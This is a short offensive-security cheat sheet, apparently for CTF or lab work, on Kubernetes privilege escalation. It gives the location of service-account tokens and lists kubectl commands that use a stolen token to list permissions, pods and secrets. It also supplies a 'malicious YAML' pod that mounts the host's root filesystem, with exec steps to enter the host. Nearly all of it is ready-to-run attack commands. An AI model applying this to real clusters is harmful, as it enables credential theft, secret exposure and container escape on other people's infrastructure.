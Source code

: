 ```yaml
---
title: "Kubernetes"
date: 2024-7-22
tags: ["Kubernetes", "container", "privesc"]
---
```


---
### Token Location

<div>

```bash
/run/secrets/kubernetes.io/serviceaccount/token
```

</div>

### Certificate Location

<div>

```bash
/run/secrets/kubernetes.io/serviceaccount/ca.crt
```

</div>

### Basic Commands

<div>

```bash
# List all namespaces
kubectl --token <TOKEN> --certificate-authority ca.crt --server https://10.10.11.10:8443 get namespaces
```

```bash
# Get user permissions in current namespace
kubectl --token <TOKEN> --certificate-authority ca.crt --server https://10.10.11.10:8443 auth can-i --list
```

```bash
# Get user permissions in specific namespace
kubectl --token <TOKEN> --certificate-authority ca.crt --server https://10.10.11.10:8443 auth can-i --list -n <NAMESPACE>
```

```bash
# List all pods
kubectl --token <TOKEN> --certificate-authority ca.crt --server https://10.10.11.10:8443 get pods --all-namespaces
```

```bash
# List pods in specific namespace
kubectl --token <TOKEN> --certificate-authority ca.crt --server https://10.10.11.10:8443 get pods -n <NAMESPACE>
```

```bash
# Get YAML of a pod
kubectl --token <TOKEN> --certificate-authority ca.crt --server https://10.10.11.10:8443 get pod <POD_NAME> -o yaml
```

```bash
# Get info of a pod
kubectl --token <TOKEN> --certificate-authority ca.crt --server https://10.10.11.10:8443 describe pod <POD_NAME> -n <NAMESPACE>
```

```bash
# List secrets
kubectl --token <TOKEN> --certificate-authority ca.crt --server https://10.10.11.10:8443 get secrets -n <NAMESPACE>
```

```bash
# Get info of a secret
kubectl --token <TOKEN> --certificate-authority ca.crt --server https://10.10.11.10:8443 describe secret <secret_name> -n <NAMESPACE>
```

</div>

<small>*Ref: [kubectl](https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/)*</small>

<br>

---

### Abuse #1: Mount host's file system

#### 1. Create a Malicious YAML (Template)

<div>

```yml
apiVersion: v1 
kind: Pod
metadata:
  name: alpine
  namespace: <NAMESPACE_NAME>
spec:
  containers:
  - name: test
    image: <IMAGE_NAME>
    command: ["/bin/sh"]
    args: ["-c", "sleep 300000"]
    volumeMounts: 
    - mountPath: /mnt
      name: hostfs
  volumes:
  - name: hostfs
    hostPath:  
      path: /
  automountServiceAccountToken: true
  hostNetwork: true
```

</div>

#### 2. Create a new pod

<div>

```bash
kubectl --token <TOKEN> --certificate-authority ca.crt --server https://10.10.11.10:8443 apply -f test.yaml
```

</div>

#### 3. Execute

<div>

```bash
kubectl --token <TOKEN> --certificate-authority ca.crt --server https://10.10.11.10:8443 exec test --stdin --tty -n <NAMESPACE>
```

```bash
# Check host filesystem
cd /mnt/root/
```

</div>

<br>